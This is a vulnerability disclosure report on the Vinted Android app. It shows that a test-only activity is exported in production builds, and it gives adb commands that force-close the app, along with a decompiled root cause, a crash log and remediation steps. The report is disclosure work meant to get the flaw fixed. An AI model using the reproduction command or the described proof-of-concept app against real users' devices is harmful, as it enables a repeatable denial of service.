



 
## Target
 
Vinted Android application ([`fr.vinted`](https://play.google.com/store/apps/details?id=fr.vinted)).


 
## Summary
 
The production Vinted Android app (`fr.vinted`, versions 26.38.0, 26.40.0 and 26.41.1) ships the test-only activity `androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity` with `android:exported="true"` and no permission protection.
 
Its `onResume()` reads a `PendingIntent` extra and calls `getClass()` without a null check. Any installed app can start the activity explicitly without that extra, producing a deterministic `NullPointerException` in the Vinted main process. The app's UI is force-closed. The crash also works with Vinted in the background or not running at all (cold start).
 
No data is exposed and no privilege is gained, this is a local DoS that requires a malicious/compromised app already installed on the device, hence the Low/P4 rating.


 
## Steps to Reproduce
 
1. Install Vinted 26.40.0 – 26.41.1 (264101) on Android 11+.



3. Run:
   ```bash
   adb shell "am start -n 'fr.vinted/androidx.test.core.app.InstrumentationActivityInvoker\$BootstrapActivity'"
   adb logcat -d -b crash
   ```
 
   > **Note (Windows / PowerShell):** PowerShell's `\$` escaping is not passed through correctly to the device shell. On PowerShell, escape the `$` for both the local shell and the Android shell instead:
   >
   > ```powershell
   > adb logcat -c
   > adb shell am start -n "fr.vinted/androidx.test.core.app.InstrumentationActivityInvoker\`$BootstrapActivity"
   > adb logcat -d -b crash
   > ```



 
4. Observe:
   ```
   FATAL EXCEPTION: main
   Process: fr.vinted, PID: <pid>
   java.lang.RuntimeException: Unable to resume activity
   {fr.vinted/androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity}:
   java.lang.NullPointerException: Attempt to invoke virtual method
   'java.lang.Class java.lang.Object.getClass()' on a null object reference
       at androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity.onResume(...)
   ```
 
   Alternatively, install the attached `poc.apk` (no permissions required) and open it.
## Root Cause (Decompiled)
 
Decompiling the shipped `androidx.test.core` classes (via JADX) confirms the unchecked `getClass()` call inside `onResume()` of `InstrumentationActivityInvoker$BootstrapActivity`:
 
```java
public final void onResume() {
    super.onResume();
    if (this.isTargetActivityStarted) {
        return;
    }
    this.isTargetActivityStarted = true;
    PendingIntent pendingIntent = (PendingIntent) getIntent().getParcelableExtra("androidx.test.core.app.InstrumentationActivityInvoker.START_TARGET_ACTIVITY_INTENT_KEY");
    int i = Checks.$r8$clinit;
    pendingIntent.getClass(); // <-- no null check: throws NullPointerException if the extra is absent
    Bundle bundleExtra = getIntent().getBundleExtra("androidx.test.core.app.InstrumentationActivityInvoker.TARGET_ACTIVITY_OPTIONS_BUNDLE_KEY");
    try {
        if (bundleExtra != null) {
            startIntentSenderForResult(pendingIntent.getIntentSender(), 0, null, 268435456, 0, 0, bundleExtra);
        } else {
            startIntentSenderForResult(pendingIntent.getIntentSender(), 0, null, 268435456, 0, 0);
        }
    } catch (IntentSender.SendIntentException e) {
        Log.e("androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity", "Failed to start target activity.", e);
    }
}
```
 
When the activity is started explicitly without the `START_TARGET_ACTIVITY_INTENT_KEY` extra, `getParcelableExtra(...)` returns `null`, and the following `pendingIntent.getClass()` call throws unconditionally.
 
## Confirmed Crash (Live Reproduction)
 
```
FATAL EXCEPTION: main
Process: fr.vinted, PID: 4778
java.lang.RuntimeException: Unable to resume activity {fr.vinted/androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity}: java.lang.NullPointerException: Attempt to invoke virtual method 'java.lang.Class java.lang.Object.getClass()' on a null object reference
    at android.app.ActivityThread.performResumeActivity(ActivityThread.java:4438)
    at android.app.ActivityThread.handleResumeActivity(ActivityThread.java:4470)
    at android.app.servertransaction.ResumeActivityItem.execute(ResumeActivityItem.java:52)
    at android.app.servertransaction.TransactionExecutor.executeLifecycleState(TransactionExecutor.java:176)
    at android.app.servertransaction.TransactionExecutor.execute(TransactionExecutor.java:97)
    at android.app.ActivityThread$H.handleMessage(ActivityThread.java:2066)
    at android.os.Handler.dispatchMessage(Handler.java:106)
    at android.os.Looper.loop(Looper.java:223)
    at android.app.ActivityThread.main(ActivityThread.java:7660)
    at java.lang.reflect.Method.invoke(Native Method)
    at com.android.internal.os.RuntimeInit$MethodAndArgsCaller.run(RuntimeInit.java:592)
    at com.android.internal.os.ZygoteInit.main(ZygoteInit.java:947)
Caused by: java.lang.NullPointerException: Attempt to invoke virtual method 'java.lang.Class java.lang.Object.getClass()' on a null object reference
    at androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity.onResume(...)
    at android.app.Instrumentation.callActivityOnResume(Instrumentation.java:1456)
    at android.app.Activity.performResume(Activity.java:8135)
    at android.app.ActivityThread.performResumeActivity(ActivityThread.java:4428)
    ... 11 more
```
 
## Impact
 
Any installed app can terminate Vinted's UI process at will, with no permissions and no interaction required from Vinted. The attacker can repeat it to cause a persistent crash / "Vinted keeps stopping" state, including a cold-start denial of service.
 
Confidentiality and integrity are not affected — no data, tokens, or files are exposed, and no code execution is achieved.
 
## Remediation
 
1. Keep `androidx.test:core` in `androidTestImplementation` only; remove it from the release runtime.
2. Remove the merged test activities from the release manifest with `tools:node="remove"` (or set `android:exported="false"` / `android:enabled="false"`):
   - `androidx.test.core.app.InstrumentationActivityInvoker$BootstrapActivity`
   - `androidx.test.core.app.InstrumentationActivityInvoker$EmptyActivity`
   - `androidx.test.core.app.InstrumentationActivityInvoker$EmptyFloatingActivity`
   - `androidx.compose.ui.tooling.PreviewActivity`
3. Add a CI check that fails if any `androidx.test.*` or `androidx.compose.ui.tooling.*` component is exported in the merged release manifest.
4. Defense in depth: null-check the `PendingIntent` extra.
